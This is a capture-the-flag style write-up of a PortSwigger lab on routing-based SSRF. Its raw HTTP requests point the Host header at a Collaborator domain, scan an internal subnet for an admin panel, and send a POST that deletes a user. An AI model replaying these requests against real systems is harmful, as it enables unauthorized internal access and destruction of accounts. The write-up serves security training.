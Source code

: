 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b36e6b1c-36bb-4b97-97aa-593aa31696ba)

## Overview :

- Routing-based SSRF relies on exploiting the intermediary components that are prevalent in many cloud-based architectures. This includes in-house load balancers and reverse proxies.

- Although these components are deployed for different purposes, fundamentally, they receive requests and forward them to the appropriate back-end. If they are insecurely configured to forward requests based on an unvalidated Host header, they can be manipulated into misrouting requests to an arbitrary system of the attacker's choice.

> These systems make fantastic targets. They sit in a privileged network position that allows them to receive requests directly from the public web, while also having access to much, if not all, of the internal network. This makes the Host header a powerful vector for SSRF attacks, potentially transforming a simple load balancer into a gateway to the entire internal network. 

- You can use Burp Collaborator to help identify these vulnerabilities. If you supply the domain of your Collaborator server in the Host header, and subsequently receive a DNS lookup from the target server or another in-path system, this indicates that you may be able to route requests to arbitrary domains.

- Having confirmed that you can successfully manipulate an intermediary system to route your requests to an arbitrary public server, the next step is to see if you can exploit this behavior to access internal-only systems.

## Solution :

Send the **GET /** to repeater tab.

```http
GET / HTTP/1.1
Host: 0ab100d803de32ba80009e5800e10037.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Connection: close
Cookie: session=Ackhz74PL40FPRCdQ57VnUQ4hnqJticB; _lab=47%7cMC0CFQCSkeO6IVrR5bWOnHC67pwNtNr%2bhgIUYDlr183TQWtxVBTVtEgHh2HsPWSw0oREPi64wCVkO8sGYJnCCjiWxSZ77Nb6uL50%2f2%2bW88EC5mTBrnauYKgKoVogt2TH%2bMe2SxPdlzhQu2ZqH%2bHIMIJRe%2beryggmPWfRwV1iLYgkRslG
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```

In the **Host** header, insert burp collaborator address & send the request.

**Request -**
```http
GET / HTTP/1.1
Host: m2wzlmhiz55309u64yt5717bai1oscp0e.oastify.com
```

**Response -**
```http
HTTP/1.1 200 OK
Server: Burp Collaborator https://burpcollaborator.net/
X-Collaborator-Version: 4
Content-Type: text/html
Connection: close
Content-Length: 475

<html><body>biooafyqnymp2kzz6os2vzzjjgpgz9m4zi1j2rvsaedk86w16c9zjklgz9m4zi1j2rvsaedk86w16c9zjjugz9m4zi1j2rvsaedk86w16c9zjjtgz9m4zi1j2rvsaedk86w16c9zjjvgz9m4zi1j2rvsaedk86w16c9zjjwgz9m4zi1j2rvsaedk86w16c9zjjxgz9m4zi1j2rvsaedk86w16c9zjkigz9m4zi1j2rvsaedk86w16c9zjkjgz9m4zi1j2rvsaedk86w16c9zjkkgz9m4zi1j2rvsaedk86w16c9zjkmgz9m4zi1j2rvsaedk86w16c9zjkngz9m4zi1j2rvsaedk86w16c9zjkogz9m4zi1j2rvsaedk86w16c9zjkogz9m4zi1j2rvsaedk86w16c9zjkogz9m4zi1j2rvsaedk86w16c9zjkpgz</body></html>
```

From the response we can understand that it worked ! 

From the collaborator , we can see that there are few hits . 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/58ee7740-a6b3-4c92-8d88-e42333d9b55b)

The IP in the request is an indicator that we are indeed able to make the middlebox (Reverse-proxy/load-balancer) to make request to our colab server.

### Routing-based SSRF -

Now we need to check if we could try & access internal IP addresses.

> Lab description says that the CIDR range is **192.168.0.0/24**

**/24** means there might me maximum 254 hosts.

Send the request to intruder & add the last octet as the payload position .

```http
GET / HTTP/1.1
Host: 192.168.0.§0§
```

> Untick the **Update host header to match target** option so that each time when the request is sent, it wont change back to websecurity.net & will remain as 192.168.0.x

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/be510b7e-fb5a-45cb-92e1-4b9ae78503d9)

Select payload type as ***numbers** & select the range from 2 to 254.

Start the attack.

Once the attack is complete, we can see that one IP address has a **302 redirect to /admin** 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ae5e31ac-52e3-4ca7-a114-2b3bde2f09b9)

So now we have the internal IP address which automatically routes to /admin panel - **192.168.0.175**

Send the *GET* request to /admin to repeater tab with the host being set to 192.168.0.175.

In the response we can see that there is an form option to delete a user & along with a **CSRF TOKEN**.

```html
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
    <input required type="hidden" name="csrf" value="02wWDc9cloXK2xxpfMxjvUfTiQ3BDzJ4">
       <label>Username</label>
    <input required type='text' name='username'>
       <button class='button' type='submit'>Delete user</button>
</form>
```

Now craft a POST request to /admin/delete with the username to delete & add the csrf token with the request

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.175
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@59cm3yso1fbeeew0hsx61ffzwq2iv6k.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab100d803de32ba80009e5800e10037.web-security-academy.net/
.
.
.
username=carlos&csrf=02wWDc9cloXK2xxpfMxjvUfTiQ3BDzJ4
```

Now the user carlos is deleted & we've solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3d86ab6a-2b4e-40f7-a068-b815088e0254)
